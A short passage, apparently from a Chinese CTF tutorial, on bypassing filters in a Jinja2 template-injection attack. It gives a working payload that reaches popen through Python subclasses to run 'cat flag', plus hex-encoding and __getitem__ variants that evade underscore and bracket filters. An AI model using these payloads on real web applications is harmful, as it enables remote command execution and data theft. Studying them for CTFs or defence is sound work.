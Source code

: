 [![在这里插入图片描述](assets/1698900310-d7e2a69b1e517d03601ee764f4b9c028.png)](https://storage.tttang.com/media/attachment/2022/08/14/5246ab01-86d1-4850-8253-709fb100f975.png)  
也可以用十六进制结合过滤器 attr() 来进行绕过，举个例子

```plain
"".__class__=""|attr(__class__)=""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")
```

那么这里的话我们就可以把下划线进行十六进制编码绕过  
原 payload

```plain
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

中括号这里用 getitem 转换为括号

```plain
().__class__.__base__.__subclasses__().__getitem__(133).__init__.__globals__.__getitem__('popen')('cat flag').read()
```
